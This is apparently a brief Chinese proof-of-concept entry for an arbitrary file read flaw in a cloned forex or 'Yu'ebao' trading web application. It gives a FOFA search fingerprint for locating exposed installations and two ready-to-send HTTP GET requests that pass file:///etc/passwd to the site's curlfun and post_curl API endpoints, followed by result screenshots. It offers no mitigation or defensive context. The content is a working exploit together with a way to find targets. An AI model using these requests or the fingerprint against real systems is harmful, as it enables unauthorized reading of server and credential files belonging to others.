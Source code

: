 ## 仿新浪外汇余额宝时间交易所任意文件读取

![image-20240616192357166](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161923273.png)

## fofa

```
"/static/index/css/ionic.css" && "devework.com"
```

## poc

```
GET /index.php/index/Api/curlfun?url=file:///etc/passwd   HTTP/1.1
Host: 
```

```
GET /index.php/index/Api/post_curl?url=file:///etc/passwd&data=1  HTTP/1.1
Host: 
```

![image-20240616192912529](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406161929587.png)